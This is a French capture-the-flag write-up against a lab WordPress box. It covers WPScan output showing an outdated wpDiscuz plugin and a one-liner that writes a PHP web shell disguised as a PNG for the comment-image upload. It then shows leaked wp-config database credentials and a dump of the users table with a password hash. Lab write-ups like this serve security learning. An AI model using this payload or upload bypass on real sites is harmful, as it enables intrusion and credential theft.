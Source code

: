 ```bash
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/akismet/readme.txt

[+] wpdiscuz
 | Location: http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/
 | Last Updated: 2022-10-12T19:07:00.000Z
 | Readme: http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.5
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/, status: 200
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
```

## Exploitation web

Ici on voit la présence du plugin wpDiscuz déjà croisé sur le [CTF Moee de VulnHub](https://devloop.users.sourceforge.net/index.php?article259/solution-du-ctf-moee-de-vulnhub). On va donc tenter à une exploitation similaire en uploadant un script PHP qui fera croire qu'il est une image via l'ajout d'entêtes spécifiques.

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

Comme pour le précédent CTF il suffit d'aller en bas d'un article dans la zone de commentaire, cliquer sur la petite image au bas à droite et procéder à l'upload.

L'image uploadée est intégrée dynamiquement dans la page, on note son URL et on ajoute notre paramètre `cmd` pour avoir l'exécution de commande :)

## Escalade de privilèges

Après upload et exécution d'un reverse-ssh, mon premier réflexe est d'aller voir le fichier de configuration de Wordpress :

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'sup3r_s3cr3t');
```

On peut alors se connecter au serveur MySQL local et dumper la table des utilisateurs :

```sql
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | j@m3s      | $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/ | jm3s          | admin@blogger.thm |          | 2021-01-17 12:40:06 |                     |           0 | j@m3s        |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
```
